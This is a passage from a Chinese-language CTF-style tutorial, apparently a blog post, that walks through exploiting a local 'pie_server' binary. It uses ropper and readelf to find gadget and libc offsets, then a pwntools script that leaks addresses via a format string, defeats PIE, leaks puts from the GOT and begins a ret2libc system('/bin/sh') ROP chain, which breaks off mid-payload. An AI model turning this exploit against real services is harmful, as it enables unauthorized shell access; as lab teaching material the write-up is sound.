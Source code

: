 这里有很多puts函数的偏移量，之后写脚本一个一个用泄露的puts地址减去这个偏移地址就是libc库的基地址

# pwntools
然后我们要找到pop rdi指令地址和system函数地址以及/bin/sh字符地址
```
ropper --file pie_server --search "pop rdi"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/18247d20df424c5db93414bf099fcbed.png)

我们只得到了这个指令的偏移地址，我们将程序的基地址 + 这个偏移地址，就是完整的内存地址

```
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep puts   //获取libc库里的puts函数地址，之后计算libc基地址
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/813b36d4b31a42ee914788d7577f6c96.png)

这些都是偏移地址，我们需要加上libc的基地址才行

然后我们就可以开始写脚本了
```
from pwn import *

exe = './pie_server'
elf = context.binary = ELF(exe, checksec=False)  //自动获取程序的详细信息

offset = 264  //覆盖程序返回地址的垃圾字符数
io = process("./pie_server")  //启动程序

pop_rdi_offset = 0x12ab   //rdi的偏移地址，我们要找到程序的基地址才能用

io.sendlineafter(b':', '%{}$p'.format(15))  //获取我们刚刚fuzz泄露的第15个不会变的内存地址
io.recvuntil(b'Hello ')  //获取程序输出的字符Hello
leaked_addr = int(io.recvline(), 16)   //将泄露的地址以整数形式存入leaked_addr变量中

elf.address = leaked_addr - 0x1224  //计算程序的基地址
pop_rdi = elf.address + pop_rdi_offset  //获得pop rdi指令真实的内存地址

//现在我们要泄漏 libc 函数，方便之后计算libc库的基地址
payload = flat({
    offset: [   //覆盖程序返回地址的垃圾字符数
        pop_rdi,  //将got.puts存入rdi寄存器里
        elf.got.puts,  //将got.puts存入rdi寄存器里
        elf.plt.puts,  //调用 puts() 泄露 got.puts 地址
        elf.symbols.vuln  //返回到vuln函数地址，接下来我们要缓冲区溢出获取shell
    ]
})

io.sendlineafter(b':P', payload)  //发送payload

io.recvlines(2)  //接收程序两次输出

got_puts = unpack(io.recv()[:6].ljust(8, b"\x00"))  //获取 got.puts 地址
info("leaked got_puts: %#x", got_puts)  //输出libc泄露的puts函数地址
libc_base = got_puts - 0x76140   //计算libc库的基地址

system_addr = libc_base + 0x4a4e0   //计算system函数真实地址
bin_sh = libc_base + 0x1b1117   //计算/bin/sh地址真实地址

payload = flat({   //完整的payload
    offset: [
        pop_rdi,
        bin_sh,
```